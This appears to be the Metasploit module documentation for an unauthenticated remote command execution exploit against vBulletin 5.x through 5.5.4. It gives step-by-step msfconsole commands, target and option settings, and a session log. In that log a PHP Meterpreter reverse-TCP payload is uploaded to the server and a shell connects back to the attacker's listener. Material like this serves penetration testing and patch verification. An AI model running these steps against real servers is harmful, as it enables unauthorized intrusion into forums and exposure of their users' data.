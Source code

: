 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the widgetConfig[code] parameter in an ajax/render/widget_php routestring request.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_5x_unauth_rce`
4. Do: `set RHOSTS 192.168.0.15`
5. Do: `set LHOST 192.168.0.13`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Defalut: shell_exec

**Proxies**

A proxy chain of format type:host:port[,type:host:port][...]. It's optional.

**RHOSTS**

The target server IP address on which vBulletin is hosted.

**RPORT**

The target server TCP port on which vBulletin is hosted. Default: 80

**SSL**

Negotiate SSL/TLS for outgoing connections. Default: false

**TARGETURI**

The base URI path of vBulletin. Default: '/'

**VHOST**

The target HTTP server virtual host.

## Usage

### Targeting (Automatic)

```
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: linux
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .QFJc.php
[*] Sending stage (38247 bytes) to 192.168.1.25
[*] Meterpreter session 11 opened (192.168.1.13:4444 -> 192.168.1.25:58830) at 2019-09-26 16:11:51 +0400
[!] This exploit may require manual cleanup of '.QFJc.php' on the target

meterpreter >
[+] Deleted .QFJc.php

meterpreter >
```

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>
